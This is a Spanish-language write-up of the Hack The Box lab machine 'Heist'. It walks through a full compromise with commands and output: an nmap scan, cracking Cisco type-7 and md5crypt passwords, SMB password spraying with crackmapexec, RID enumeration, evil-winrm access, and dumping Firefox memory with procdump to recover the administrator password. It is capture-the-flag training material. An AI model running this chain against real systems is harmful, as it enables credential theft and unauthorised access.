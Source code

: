 ```yaml
---
layout: single
title: HTB-Heist
excerpt: "WriteUp de la máquina HTB Heist -- Type: Easy"
date: 2022-04-06
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/heist/heist.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/heist/heist.png"></centre>


[Maquina](https://app.hackthebox.com/machines/Heist) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149
```

```bash
Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-06T13:56:12
|_  start_date: N/A
|_clock-skew: 5m43s
```

En la web podemos ver un panel de login y podemos entrar como **guest**
<centre><img src="/assets/images/writeups/heist/panel1.png"></centre>

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.
<centre><img src="/assets/images/writeups/heist/panel2.png"></centre>
```txt
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```


## Explotación

Con **john** podemos crackear el md5:
```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt

└─$ john --show pass.txt
?:stealth1agent
```

Y con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords:
```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

```bash
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713      
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

Usamos **crackmapexec** para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
```bash
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

Podemos enumerar mas usuarios en la máquina en el caso de que los necesitaramos.
```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```      

```txt
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```

```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Añadimos los siguientes usuarios a la nuestra lista.
```txt
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

```bash
crackmapexec smb 10.10.10.149 -u chase -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nos conectamos con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'    
```

Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando **PS** y nos encontramos algunos de **firefox** y podríamos intentar sacar algunas **credenciales** que tenga en el navegador.

```txt
   1478      57    23496      79184              4316   1 explorer
    347      19    10240      38684       0.05   1736   1 firefox
    405      33    26756      84500       0.80   2584   1 firefox
   1048      63   112260     188264       3.83   3672   1 firefox
    385      28    21712      58504       0.97   6288   1 firefox
    355      25    16432      39132       0.09   6652   1 firefox
     49       6     1504       3852               756   0 fontdrvhost
     49       6     1792       4648               764   1 fontdrvhost
```

Nos dumpeamos las credenciales con el [Procdump](https://download.sysinternals.com/files/Procdump.zip) y lo subimos con el comando upload de **evil-winrm**.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Con el programa [Strings](https://download.sysinternals.com/files/Strings.zip) podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula 
firefox.exe_220419_133414.dmp > fichero.txt"
````



Buscamos la posible contraseña en el **fichero.txt**
```txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Comprobamos que usuario somos al entrar con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'    
```
```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::d8
   IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
   Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.149
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


Flag **Chase**:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir

    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/19/2022   1:21 PM             34 user.txt

*Evil-WinRM* PS C:\Users\Chase\Desktop>
```

Flag **Administrator**
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/19/2022   1:21 PM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```